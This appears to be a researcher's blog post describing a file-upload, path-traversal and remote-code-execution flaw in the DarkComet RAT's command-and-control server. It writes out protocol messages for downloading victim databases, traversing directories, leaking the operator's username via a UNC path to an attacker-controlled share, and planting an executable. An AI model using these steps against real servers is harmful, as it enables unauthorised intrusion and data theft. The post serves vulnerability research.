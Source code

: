 ```yaml
---
layout: post
title: DarkComet upload vulnerability
---
```


This post will introduce a file upload vulnerability in DarkComet's C&C server. While a flaw that allows an attacker to download files has already been known for many years there is no mention of this very similar vulnerability.
A quick disclaimer before we go into the actual matter: Hacking a C&C server might seem morally justified but it is still illegal. Don't do it.

# Intro

Hacking the hacker has always been a personal interest of mine but only recently I acquired the technical skills to actually execute such an attack. I started the search for a vulnerability a few days ago and found [many](http://samvartaka.github.io/exploitation/2016/06/03/dead-rats-exploiting-malware) [interesting](https://techanarchy.net/2015/11/darkcomet-hacking-the-hacker/) [articles](https://www.nccgroup.trust/globalassets/our-research/us/whitepapers/PEST-CONTROL.pdf) on DarkComet. All of them mention the file download vulnerability we will now look at.
The DarkComet C&C server uses a `QUICKUP` command to download files to the clients. It looks like this (`C` denotes the client and `S` the server):

```Text
S: QUICKUPC:\some\file.jpg|123|UPLOADEXEC
```

The client then opens a new connection:

```Text
S: IDTYPE
C: QUICKUP123|C:\some\file.jpg|UPLOADEXEC
S: \x41\x00\x43
C: A
S: <file length>
C: A
S: <raw file data>
```

The C&C server doesn't check whether it ever issued a upload command. This means anyone who connects to the server can download any file. Unfortunately since there is no way to get the server to list all files in a directory this vulnerability is limited to downloading files with a known name. The only interesting files would be `comet.db` which contains a list of all victims and keylog data and `config.ini` which may contain no-ip.org passwords.

While this vulnerability is interesting there is nothing like a remote code execution vulnerability. A logical starting point would be to look into the upload functionality of DarkComet:

# Upload functionality

When the C&C server tries to download a file this is what happens:

```Text
S: DOWNLOADFILE596|C:\some\file.jpg
```

The client then opens a new connection:

```Text
S: IDTYPE
C: FILETRANSFER0|596
S: \x41\x00\x43
C: FILEBOFC:\some\file.jpg|0
S: A
C: <raw file data>
```

The server will now write the file into a user specified directory with the filename `file.jpg`. While this might seem trivially exploitable it unfortunately isn't. The `596` in `DOWNLOADFILE596` is the socket handle of the client and the server wouldn't accept `FILETRANSFER0|596` if it didn't already issue a `DOWNLOADFILE` with the same handle.

This leaves us with a pretty useless vulnerability: We can upload arbitrary files in a directory we can't control under the condition that we can guess a socket handle the server already downloaded a file from. Guessing a socket handle isn't really hard (they always seem to be a multiple of four and are usually between 400 and 2300). We will however need to use a trick to get the file into a directory specified by us:

# Path shenanigans

Since we can control the file name in the `FILEBOFC:\some\file.jpg|0` message we can try some path shenanigans. And behold: The server uses `split("\")` to get the file name. This means we can simply change it to `FILEBOFC:\some\../../../Windows/file.jpg|0` and the server will use `../../../Windows/file.jpg` as the file name. The Windows API however won't care and will happily interpret `/` as a path delimiter. Using this trick we can upload the file into any directory on the same drive.

With some more shenanigans we can also get the username of the user running DarkComet: For this we will use UNC paths and the file download vulnerability:

```Text
QUICKUP123|\\our.domain.tld\test.txt|UPLOADEXEC
```

The C&C server will try to connect to our network share and leak the user and computer name. This information can now be used for our final trick:

# Remote code execution

The DarkComet C&C server will by default try to use UPnP to automatically open ports. It does this by writing a file called `upnp.exe` into the Temp directory and calling it when necessary. To execute our own code we can use the file upload vulnerability with the fact that the server leaks the username when connecting to a network share and upload an executable to `C:\Users\<username>\AppData\Local\Temp\upnp.exe`. The next time the C&C server restarts our code will get executed.

# Proof of concept

A proof of concept can be found [here](https://gist.github.com/PseudoLaboratories/260b6f24844785aacc1e2fb61dd05c01).

# Conclusion

While not being an easily exploitable vulnerability this could be used against many of the DarkComet C&C servers in the wild. A dedicated attacker could even write a script that acts like a normal client and tries to trick the C&C server into downloading files by conveniently placing `passwords.txt` or `nudes.jpg` on their desktop. This would remove the need to guess a socket handle and make sure that the conditions of the vulnerability are met.
DarkComet and other C&C servers are a cool starting place for beginners searching for vulnerabilites. This is because they are often written by people without any proper security practices, they are network based applications and they can easily be found in the wild.
